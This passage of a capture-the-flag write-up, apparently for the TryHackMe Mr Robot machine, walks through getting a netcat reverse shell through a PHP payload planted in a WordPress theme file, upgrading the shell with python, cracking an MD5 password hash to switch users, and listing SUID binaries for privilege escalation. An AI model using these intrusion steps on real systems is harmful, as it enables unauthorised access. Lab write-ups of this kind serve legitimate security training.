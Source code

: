 With everything in place and following the directions from the hackingarticles site, I start a netcat listener on my local machine. 
```
ajread@aj-ubuntu:~/TryHackMe$ nc -lnvp 9999
Listening on 0.0.0.0 9999
```
I run a curl command from my local machine to call the updated php theme that, in reality, is my php reverse shell (https://www.hackingarticles.in/wordpress-reverse-shell/). 
```
ajread@aj-ubuntu:~$ curl http://[Remote IP]/wp-content/themes/twentyfifteen/404.php
```
And it drops me into a shell as daemon! 
```
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 23:16:15 up 38 min,  0 users,  load average: 0.00, 0.36, 1.76
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
I make sure to upgrade the shell with python. 
```
$ python -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/$ 
```
If I navigate to the home folder of user robot, I find some interesting files that I dont have access to, except for one. 
```
daemon@linux:/home/robot$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```
The ```password.raw-md5``` appears to be an MD5 hash of the user robot's credentials. I dropped the hash into crackstation (https://crackstation.net/) and found the password for user robot. With the password, I am able to authenticate as robot and read key 2! 
```
daemon@linux:/home/robot$ su robot  
su robot 
Password: [REDACTED]

robot@linux:~$ wc -c key-2-of-3.txt
wc -c key-2-of-3.txt
33 key-2-of-3.txt
```
## Key 3
Key 3 probably requires privilege escalation. I wanted to see if I could use a GTFO bin to execute a binary as root user and gain its privilege. I used ```find / -perm +6000 2>/dev/null``` to do so, which checks for files with SGID/SUID bit set. 
```
robot@linux:~$ find / -perm +6000 2>/dev/null
find / -perm +6000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
```